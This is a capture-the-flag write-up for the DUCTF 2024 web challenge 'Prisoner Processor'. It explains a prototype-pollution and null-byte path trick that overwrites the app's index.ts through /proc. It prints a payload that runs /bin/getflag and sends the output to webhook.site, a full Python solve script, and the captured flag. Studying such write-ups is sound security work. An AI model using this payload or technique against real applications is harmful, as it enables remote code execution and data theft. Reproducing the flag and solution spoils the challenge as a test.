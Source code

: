 ```yaml
---
created: 2024-07-07T02:38
updated: 2024-07-07T21:46
title: Prisoner Processor
solves: 17
points: 325
description: Hijacking the main application
---
```


## Analysis

```ts [index.ts]
const getSignedData = (data: any): any => {
    const signedParams: any = {};
    for (const param in data) {
        if (param.startsWith(SIGNED_PREFIX)) {
            const keyName = param.slice(SIGNED_PREFIX.length);
            signedParams[keyName] = data[param];
        }
    }
    return signedParams;
};
```

- This is vulnerable to prototype pollution.
- Only parameters starting with `signed.` are checked for signature.

```ts
const outputPrefix = z.string().parse(signedData.outputPrefix ?? "prisoner");
const outputFile = `${outputPrefix}-${randomBytes(8).toString("hex")}.yaml`;
```

- `outputPrefix` is not defined anywhere, it is our target for pollution.

```ts
const json = JSON.parse(readFileSync(fullPath).toString());
prisoners.push({
    data: json,
    signature: getSignature(getSignedData(json))
});
```

- We can use the examples to build our payload upon.

```sh
#!/bin/bash

cd /app;
# Loop in case the app crashes for some reason ¯\_(ツ)_/¯
while :; do
    for i in $(seq 1 5); do
        bun run start;
        sleep 1;
    done
    # Okay for some reason something really goofed up...
    # Restoring from backup
    cp -r /home/bun/backup/app/* /app;
done
```

- This is inviting a crush.

## Attack

### Custom File Name

By polluting `outputPrefix` we can change the output file.

```python
d['data']['signed.__proto__'] = {
    "outputPrefix": "hewwo\u0000"
}
# {"msg":"hewwo\u0000-5595316e6c23eddd.yaml"}
```

It worked, use null terminator to end the file path prematurely to get rid of the suffix.

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720335471/2024/07/a83e996f9b627e9eb808b892a746556f.png)

### Overwrite index.ts

```ts
const BANNED_STRINGS = [
    "app", "src", ".ts", "node", "package", "bun", "home", "etc", "usr", "opt", "tmp", "index", ".sh"
];
```

Everything is great but how do we escape the blacklist?

> My teammate @spipm, was the one who came up with the exact execution of the bypass..
> I got stuck playing with path traversal.

The solution is with proc.

```
"outputPrefix": "../../proc/9/fd/3\u0000"
```

You can find `/proc` targets via the following command.

```sh
$ find /proc -type l -ls | grep index.ts
find: '/proc/tty/driver': Permission denied
   5107188      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/9/fd/3 -> /app/src/index.ts
   5090100      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/18/fd/3 -> /app/src/index.ts
   5090164      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/19/fd/3 -> /app/src/index.ts
   5090228      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/20/fd/3 -> /app/src/index.ts
   5090292      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/21/fd/3 -> /app/src/index.ts
   5106740      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/22/fd/3 -> /app/src/index.ts
   5106804      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/23/fd/3 -> /app/src/index.ts
   5106868      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/24/fd/3 -> /app/src/index.ts
   5106932      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/26/fd/3 -> /app/src/index.ts
   5106996      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/28/fd/3 -> /app/src/index.ts
   5107060      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/30/fd/3 -> /app/src/index.ts
   5107124      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/task/31/fd/3 -> /app/src/index.ts
   5106453      0 lr-x------   1 bun      bun            64 Jul  7 07:23 /proc/9/fd/3 -> /app/src/index.ts
find: '/proc/91/task/91/fd/5': No such file or directory
find: '/proc/91/fd/6': No such file or directory
```

### Payload

```python
{
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}
```

- We replace `index.ts` with our generated yml file.
- For our yml to run as js, we use block comments to comment out everything in-between and the last quote.
- Send the flag to our webhook.
- Crash the script so it will be restarted by `start.sh`.

## Solve Script

```python [solve.py]
import requests
s = requests.Session()
target = "https://web-prisoner-processor-3bdc15af869668aa.2024.ductf.dev"
# target = "http://localhost:1337"
d = s.get(f"{target}/examples")
sign = d.json()['examples'][0]['signature']

d = {'data': {
    'fetch("https://webhook.site?w=" + (await require("bun").$`/bin/getflag`.text()));/*': "",
    'signed.name': 'jeff',
    'signed.animalType': 'emu',
    'signed.age': 12,
    'signed.crime': 'assault',
    'signed.description': 'clotheslined someone with their neck',
    'signed.start': '2024-03-02T10:45:01Z',
    'signed.release': '2054-03-02T10:45:01Z',
    'signed.__proto__': {
        "outputPrefix": "../../proc/9/fd/3\u0000"
    },
    "payload": "*///"
}, 'signature': sign}

r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
d['data']['signed.__proto__']['outputPrefix'] = "../../../ap\\p/sr\\c/owo-crusher-owo\u0000"
r = s.post(f"{target}/convert-to-yaml", json=d)
print(r.text)
# {"msg":"../../proc/9/fd/3\u0000-f8af8a2374745bb5.yaml"}
# {"msg":"../../../ap\\p/sr\\c/owo-crusher-owo\u0000-afead8be95834c3e.yaml"}

# DUCTF{bUnBuNbUNbVN_hOn0_tH15_aPp_i5_d0n3!!!one1!!!!}
```

Again, thanks to my teammate @spipm.
The above solve script is heavily inspired by his.
The halting payload was by my own findings though, (you can probably guess why).
